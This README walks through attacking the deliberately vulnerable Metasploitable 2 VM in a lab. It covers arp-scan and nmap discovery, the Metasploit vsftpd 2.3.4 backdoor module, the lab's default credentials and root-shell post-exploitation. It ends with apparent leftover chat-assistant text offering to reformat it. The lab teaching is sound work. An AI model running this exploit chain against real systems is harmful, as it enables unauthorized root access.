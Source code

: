[readme.md](https://github.com/user-attachments/files/23171044/readme.md)
# Metasploitable 2





**Metasploitable 2** is a deliberately vulnerable Linux virtual machine designed for beginners to practice penetration testing skills. The challenges included are straightforward and provide a solid foundation for learning offensive security techniques.

---

## Table of Contents

- [Description](#description)
- [Prerequisites](#prerequisites)
- [Getting started](#getting-started)
- [Finding the target IP](#finding-the-target-ip)
- [Scanning](#scanning)
  - [ARP scan](#arp-scan)
  - [Nmap scan](#nmap-scan)
  - [Nmap options explained](#nmap-options-explained)
- [Enumeration: FTP (vsftpd 2.3.4)](#enumeration-ftp-vsftpd-234)
- [Exploitation (Metasploit)](#exploitation-metasploit)
- [Post-exploitation](#post-exploitation)
- [Conclusion](#conclusion)
- [Responsible use](#responsible-use)
- [Credits](#credits)

---

## Description

This guide documents a simple walkthrough of attacking a Metasploitable 2 VM from an attack machine (Kali Linux) running in the same hypervisor (VMware Workstation). It covers finding the target on the LAN, scanning for open ports and services, identifying a vulnerable service (vsftpd 2.3.4), and exploiting it using Metasploit.

## Prerequisites

- An attack machine (Kali Linux) and the Metasploitable 2 VM running in your hypervisor (VMware Workstation used here).
- Network connectivity between the attack machine and the target (use Host-only or NAT depending on your setup).
- Tools used:
  - `arp-scan`
  - `nmap`
  - `msfconsole` (Metasploit Framework)

## Getting started

1. Boot your Metasploitable 2 VM and your attack machine (Kali Linux).
2. Log in to the Metasploitable 2 VM with the default credentials:

```text
username: msfadmin
password: msfadmin
```

3. On the Metasploitable machine, discover its IP address (this step is optional if you prefer to discover it from the attacker machine):

```bash
ifconfig   # or: ip addr show
```

> In this guide we discover the target IP from the attack machine using `arp-scan`.

## Finding the target IP

Scan the local network to find hosts and their IPs:

```bash
sudo arp-scan -l
```

Look for the IP address that corresponds to the Metasploitable VM. Note that your network interface (and the network range) may differ depending on VMware settings.

## Scanning

After you have the target IP, perform a full port/service/OS scan using `nmap` from the attack machine.

### ARP scan

(Already shown above) `arp-scan -l` lists active hosts on the LAN and helps you find the Metasploitable IP.

### Nmap scan

Run an aggressive, full-port scan and save results to a file:

```bash
nmap -p- -v -sT -sV -O -oN Temp.xml <target_ip>
```

Replace `<target_ip>` with the IP you found using `arp-scan`.

### Nmap options explained

- `-p-` : scan all 65,535 TCP ports
- `-v`  : verbose output
- `-sT` : TCP connect scan (useful when raw sockets are not available)
- `-sV` : probe open ports to determine service and version information
- `-O`  : attempt to determine the target operating system
- `-oN Temp.xml` : save output to `Temp.xml` (note: the extension here is `.xml` but `-oN` writes normal text format; change to `-oX` for real XML)

After the scan completes you will see a list of open ports and services. Metasploitable 2 typically presents many open services — each is a potential attack vector.

## Enumeration: FTP (vsftpd 2.3.4)

From the scan results, FTP (port 21) often shows up with the service `vsftpd 2.3.4`. This specific version is known to have a malicious backdoor in certain Metasploitable builds and earlier vulnerable distributions.

Research the specific service/version (e.g., search exploit databases) to see if there are public exploits available for that version.

## Exploitation (Metasploit)

Metasploit includes a module for the `vsftpd 2.3.4` backdoor. The basic steps to exploit using Metasploit are shown below.

```bash
msfconsole
search vsftpd 2.3.4

# If found:
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS <target_ip>
set RPORT 21         # optional if different
exploit
```

Replace `<target_ip>` with the target's IP. After running `exploit` you should receive a shell from the target.

## Post-exploitation

Once you have a shell, verify privileges:

```bash
whoami
```

If the exploit gives you a root shell (as commonly happens with this vuln in Metasploitable 2), `whoami` will return `root`.

From here you can explore the filesystem, inspect `/etc/passwd`, check for other services, and practice post-exploitation enumeration in a safe, legal lab environment.

## Conclusion

This walkthrough demonstrated a simple, classic attack path in Metasploitable 2:

1. Discover the target on the LAN (`arp-scan`).
2. Scan the target for open ports and identify services (`nmap`).
3. Research identified services (vsftpd 2.3.4) for known vulnerabilities.
4. Exploit the vulnerable service with Metasploit and obtain a shell.

This is intentionally simplified for learning purposes. Real-world engagements require far more careful reconnaissance, planning, and legality checks.

## Responsible use

**Important:** These techniques are for learning and testing only. Do **not** use them against systems you do not own or do not have explicit authorization to test. Unauthorized access to computer systems is illegal and unethical.

## Credits

- Metasploit Framework
- Metasploitable project (Intended for defensive and educational use)

---

*If you want, I can convert this to a ******`README.md`****** file in your repo format, add badges (e.g., ******`linux`******, ******`vulnerable`******), or include screenshots and commands output snapshots. Just tell me what you'd like next.*

